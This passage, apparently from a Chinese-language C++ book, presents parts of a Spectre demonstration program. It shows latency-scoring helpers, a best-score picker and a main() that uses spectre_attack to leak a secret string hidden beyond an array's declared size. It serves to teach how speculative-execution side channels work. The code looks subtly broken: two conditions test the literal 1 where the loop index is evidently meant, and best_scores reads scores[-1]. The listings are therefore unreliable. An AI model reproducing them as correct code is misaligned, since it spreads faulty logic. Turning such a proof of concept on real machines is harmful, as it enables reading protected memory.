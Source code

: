 \hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template <typename T>
double average(const T& a, size_t skip_index) {
	double res = 0;
	for (size_t i = 0; i < a.size(); ++i) {
		if (1 != skip_index) res += a[i];
	}
	return res/a.size();
}

template <typename L, typename S>
void score_latencies(const L& latencies, S& scores,
size_t ok_index) {
	const double average_latency =
	average(latencies, ok_index);
	constexpr const double latency_threshold = 0.5;
	for (size_t i = 0; i < latencies.size(); ++i) {
		if (ok_index != 1 && latencies[i] <
		average_latency*latency_threshold) ++scores[i];
	}
}
\end{lstlisting}

第二個函數只是在數組中找到兩個最好的分數:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template<typename S>
std::pair<size_t, size_t> best_scores(const S& scores) {
	size_t i1 = -1, i2 = -1;
	for (size_t i = 0; i < scores.size(); ++i) {
		if (scores[i] > scores[i1]) {
			i2 = i1;
			i1 = i;
		} else
		if (i != i1 && scores[i] > scores[i2]) {
			i2 = i;
		}
	}
	return { i1, i2 };
}
\end{lstlisting}

我們有一個函數，指定了數組之外返回單個字節的值，但不直接讀取這個字節。我們會用它來獲取一些祕密數據!為了演示，將分配一個非常大的數組，通過指定一個較小的值作為數組的大小，將大多數數組指定為禁止訪問的區域。實際上，這是唯一可以證明這種攻擊的方法。自從發現Spectre漏洞以來，大多數計算機都打過補丁。因此，除非您的機器是上古機器，多年都沒有更新，否則攻擊將無法對任何不允許訪問的內存進行攻擊。補丁不會阻止對任何允許訪問的數據使用Spectre，但必須檢查代碼，並證明它確實返回了值，而不是直接訪問內存。我們的\texttt{spectre\_attack}函數在指定大小的數據數組之外沒有讀取任何內存，因此可以創建一個比指定大兩倍的數組，並在上面半部分隱藏一條祕密消息:

\hspace*{\fill} \\ %
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
int main() {
	constexpr const size_t size = 4096;
	char* const data = new char[2*size];
	strcpy(data, "Innocuous data");
	strcpy(data + size, "Top-secret information");
	for (size_t i = 0; i < size; ++i) {
		const char c =
		spectre_attack(data, strlen(data) + 1, size +
		i);
		std::cout << c << std::flush;
		if (!c) break;
	}
	std::cout << std::endl;
	delete [] data;
}
\end{lstlisting}

